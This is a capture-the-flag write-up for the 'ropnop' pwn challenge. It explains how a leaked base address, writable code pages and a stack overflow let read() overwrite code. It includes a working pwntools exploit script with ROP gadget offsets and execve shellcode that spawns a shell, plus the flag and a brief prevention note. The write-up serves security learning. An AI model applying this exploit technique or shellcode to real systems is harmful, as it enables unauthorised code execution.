 # ropnop

## Information
Category: Pwn   
Difficulty: Medium   
Author: Flo   
First Blood: localo   

## Solution

This challange is more tricky in that you are not given any hint what to exploit and the additional difficulty of dealing with the fact that the largest fraction of return instructions are patched with nops. Furthermore, I personally think that the so called "gadget shop"
in the C source file is a little bit misleading in terms of what approach you are to take on this challange. Because of the last challange, which
included a long ropchain, we are now so stuck in that "rop mindset" that we oversee the quiete obvious solution path.

Due to the debug info when running the ropnop binary, we already defeated aslr - at least for the ropnop image. In the C file, we also observe that actually,
we are granted full write capabilities on the code memory pages of ropnop. Combining these thoughts with a read() function at the end of main() lets us think
about the following:

We can abuse read() with the right parameters to directly overwrite code that would be executed after read() returns!   

In order to do so however, we need to somehow call read() with the appropriate parameters. We do this by overflowing the buffer in the main
function frame through read() - the same read() that we will use later.

Crafting our exploit, we first extract the base address from the debug output. Here I assigned it to p_ropnop_code_off.   

```python
#!/usr/bin/python

from pwn import *

# prepare, let user attach debugger
p = process("./ropnop", stdin=PIPE, stdout=PIPE)
print("[i] attached to process")
# raw_input()


# first address leak
leak1 = p.readline().split(" ")
print( "[i] .text start @ " +  leak1[3])
#print( ".code start " + leak1[6])
p_ropnop_code_off = int(leak1[3], 16)
# try to overflow the buffer
```


Now we craft our payload. First we evaluate how much bytes are meant to be read in by read() and adjust our padding.   


```python
s = 'A' * 0x10 # allocated in stack for read 
s += 'T' * 8 # base pointer --> sorry, we dont know this one
```

We use a small rop gadget that pops the memory address of the next instruction after the read libcall into rdi register.
r15 is also popped, but that is just because we couldnt find a "rdi only" rop gadget. We then redirect code execution
back into right before the read library call, which allows us once again, to input bytes. However at this stage, we should be overwriting
code memory with our input, so we fetch some shellcode from shellstorm and read that in from stdin.


```python
s += p64(0x1351+p_ropnop_code_off, endian='little') # --> pop rsi, pop r15
s += p64(0x12d4+p_ropnop_code_off) # desired rsi value (where read will write to ) --> just after read call
s += p64(0x0, endian='little') # !important
s += p64(0x12cf+p_ropnop_code_off, endian='little') # --> return into before read call
p.sendline(s)
s = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
p.sendline(s) # overwrite some .text memory
p.interactive()

```
Now every instruction directly after the read library call should be completely overwritten with our input , and we should get a shell!!!   


![](shell.png)


flag: CSCG{s3lf_m0d1fy1ng_c0dez!}


## Prevention

A potential fix would involve not leaking the address of the binary image in memory and leaving code pages nonwriteable. 
